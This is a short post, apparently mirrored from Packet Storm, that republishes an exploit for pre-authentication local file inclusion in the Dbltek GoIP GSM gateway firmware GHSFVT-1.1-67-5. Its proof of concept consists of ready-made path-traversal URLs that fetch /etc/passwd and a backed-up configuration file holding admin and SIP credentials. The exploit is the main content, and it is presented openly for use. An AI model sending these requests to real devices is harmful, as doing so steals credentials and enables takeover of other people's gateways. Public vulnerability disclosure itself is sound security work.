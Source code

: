 ```yaml
---
layout: post
title: Dbltek GoIP GHSFVT-1.1-67-5
date: 2022-02-21 03:32 +0300
categories: [Exploits, File Inclusion]
tags: [exploits]
---
```









![](../../../assets/img/Exploits/dbitek.png)

The Dbltek GoIP, which is running firmware version GHSFVT-1.1-67-5, has a vulnerability related to local file inclusion.

  

```
MD5 | 1da824e80cedd24b390e4caee1202eb9
```

```perl
    # Exploit Title: Dbltek GoIP - Local File Inclusion
    # Date: 20.02.2022
    # Exploit Author: Valtteri Lehtinen & Lassi Korhonen
    # Vendor Homepage: http://en.dbltek.com/index.html
    # Software Link: -
    # Version: GHSFVT-1.1-67-5 (firmware version)
    # Tested on: Target is an IoT device
    
    # Exploit summary
    Dbltek GoIP-1 is a VoIP-GSM gateway device, which allows making calls and sending SMS messages using SIP.
    The device has a webserver that contains two pre-auth Local File Inclusion vulnerabilities.
    
    Using these, it is possible to download the device configuration file containing all device credentials (including admin panel credentials and SIP credentials) if the configuration file has been backed up.
    
    It is probable that also other models and versions of Dbltek GoIP devices are affected.
    
    Writeup: https://shufflingbytes.com/posts/hacking-goip-gsm-gateway/
    
    # Proof of Concept
    Assuming the device is available on IP 192.168.9.1.
    
    Download /etc/passwd
    http://192.168.9.1/default/en_US/frame.html?content=3D..%2f..%2f..%2f ..%2f..%2fetc%2fpasswd
    http://192.168.9.1/default/en_US/frame.A100.html?sidebar=3D..%2f..%2f ..%2f..%2f..%2fetc%2fpasswd
    
    Download device configuration file from /tmp/config.dat (requires that the configuration file has been backed up)
    http://192.168.9.1/default/en_US/frame.html?content=3D..%2f..%2f..%2f..%2f..%2ftmp%2fconfig.dat
    http://192.168.9.1/default/en_US/frame.A100.html?sidebar=3D..%2f..%2f..%2f..%2f..%2ftmp%2fconfig.dat
```
    
<br>
  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)

